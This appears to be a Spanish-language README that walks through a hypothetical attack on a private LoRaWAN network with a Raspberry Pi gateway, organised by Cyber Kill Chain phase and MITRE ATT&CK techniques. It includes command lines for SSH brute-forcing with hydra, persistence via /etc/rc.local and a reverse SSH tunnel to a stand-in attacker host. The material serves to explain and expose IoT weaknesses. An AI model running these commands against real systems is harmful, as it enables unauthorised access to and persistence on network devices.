

# Cyber Kill Chain - Ataque a Infraestructura LoRaWAN con Raspberry Pi y ESP32

## Introducción

Las redes **LoRaWAN** (Long Range Wide Area Network) son utilizadas para conectar dispositivos IoT en grandes áreas con bajo consumo de energía. Estas redes suelen emplear **cifrado AES-128** para proteger la comunicación entre los nodos y el servidor, pero aún pueden ser vulnerables a diversos ataques si no se implementan adecuadas medidas de seguridad.


## Objetivo

El propósito de este análisis es demostrar cómo un atacante podría interceptar los datos transmitidos por dispositivos finales LoRaWAN (basados en ESP32 con chip SX1307) o tomar control del gateway (en este caso, un Raspberry Pi 4) para redirigir el tráfico a servidores maliciosos o acceder a las claves de descifrado almacenadas en el dispositivo. A través del modelo Cyber Kill Chain, se ejemplificará cómo se puede comprometer la infraestructura, manipular las comunicaciones y exponer las debilidades en la implementación de seguridad de una red LoRaWAN privada.

### Posibles vulnerabilidades en LoRaWAN
1. **Ataques de repetición**: Un atacante puede capturar paquetes LoRa y retransmitirlos para ejecutar comandos falsos.
2. **Compromiso del gateway**: Si un atacante obtiene acceso al Raspberry Pi que actúa como gateway, puede manipular el tráfico LoRaWAN.
3. **Robo de claves de sesión**: Si el atacante obtiene las claves de cifrado, puede descifrar la comunicación LoRaWAN.
4. **Ataques de denegación de servicio (DoS)**: Mediante interferencia de radio o saturación de paquetes, se puede bloquear la red.

En este documento, describimos cómo un atacante podría comprometer un **Raspberry Pi 4**, que actúa como gateway LoRaWAN, con el objetivo de interceptar, modificar o falsificar la comunicación entre los nodos **ESP32 con SX1307** y el servidor LoRaWAN privado. Seguiremos las fases del modelo **Cyber Kill Chain**, detallando los métodos utilizados en cada etapa y cómo se llevaría a cabo el ataque.

### ¿Qué es un SDR?
Un **Software Defined Radio (SDR)** es un dispositivo que permite la captura y análisis de señales de radio utilizando software en lugar de hardware especializado. Los SDR son herramientas poderosas para evaluar la seguridad de redes inalámbricas como LoRaWAN, permitiendo a un atacante capturar paquetes, analizar señales y realizar ataques de replay o manipulación de datos.

#### Captura de señal LoRaWAN con SDR


#### Dispositivo de análisis de redes LoRaWAN
Un atacante puede usar dispositivos como el **RAK10701 Field Tester**, que permite detectar nodos LoRaWAN conectados a un gateway y analizar sus transmisiones.


Más información sobre este dispositivo en: [RAK10701 Field Tester](https://store.rakwireless.com/products/field-tester-for-lorawan-rak10701)

---

## Cyber Kill Chain - Fases del Ataque

### 1. Reconocimiento (Reconnaissance)  
- **[T1595 - Active Scanning](https://attack.mitre.org/techniques/T1595/):**  
  - Escaneo de redes WiFi o Ethernet para identificar la Raspberry Pi y otros dispositivos en la red.  
  - Uso de `nmap` para detectar puertos abiertos (**22 SSH**, **1700 UDP LoRaWAN**).  
  ```bash
  nmap -sP 192.168.1.0/24
  ```
- **[T1590.002 - Gather Victim Network Information](https://attack.mitre.org/techniques/T1590/002/):**  
  - Identificación de servidores LoRaWAN privados.  
  - Análisis de tráfico LoRaWAN con SDR (Software Defined Radio).  

---

### 2. Armamento (Weaponization)  
- **[T1587.001 - Develop Capabilities: Malware](https://attack.mitre.org/techniques/T1587/001/):**  
  - Creación de malware para explotar vulnerabilidades en el Raspberry Pi.  
- **[T1203 - Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203/):**  
  - Desarrollo de exploits para vulnerabilidades en el software del gateway.  
  - Creación de payloads maliciosos para obtener acceso remoto.  

---

### 3. Entrega (Delivery)  
- **[T1566.001 - Phishing: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/):**  
  - Envío de correos electrónicos con archivos adjuntos maliciosos a los administradores del gateway.  
- **[T1021.004 - Remote Services: SSH](https://attack.mitre.org/techniques/T1021/004/):**  
  - Ataques de fuerza bruta a SSH con `hydra`.  
  ```bash
  hydra -l pi -P rockyou.txt ssh://192.168.1.10
  ```

---

### 4. Explotación (Exploitation)  
- **[T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/):**  
  - Uso de exploits para obtener privilegios de root en el Raspberry Pi.  
- **[T1203 - Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203/):**  
  - Ejecución de código remoto aprovechando vulnerabilidades.  

---

### 5. Instalación (Installation)  
- **[T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/):**  
  - Modificación de archivos de inicio para ejecución persistente del malware.  
  ```bash
  echo '/home/pi/malware.sh' >> /etc/rc.local
  ```
- **[T1554 - Compromise Client Software Binary](https://attack.mitre.org/techniques/T1554/):**  
  - Alteración de software legítimo del gateway para incluir código malicioso.  

---

### 6. Comando y Control (C2)  
- **[T1572 - Protocol Tunneling](https://attack.mitre.org/techniques/T1572/):**  
  - Uso de túneles SSH inversos para mantener acceso persistente.  
  ```bash
  ssh -R 9000:localhost:22 atacante@servidor.com
  ```
- **[T1102 - Web Service](https://attack.mitre.org/techniques/T1102/):**  
  - Uso de servicios como Telegram o Discord para recibir comandos.  

---

### 7. Acciones sobre Objetivos (Actions on Objectives)  
- **[T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/):**  
  - Captura y análisis de tráfico LoRaWAN.  
  ```bash
  tcpdump -i wlan0 port 1700
  ```
- **[T1565.002 - Data Manipulation: Transmitted Data Manipulation](https://attack.mitre.org/techniques/T1565/002/):**  
  - Modificación de datos LoRaWAN antes de ser reenviados al servidor.  
- **[T1498 - Network Denial of Service](https://attack.mitre.org/techniques/T1498/):**  
  - Saturación de la red con paquetes falsos para interrumpir la comunicación.  

---

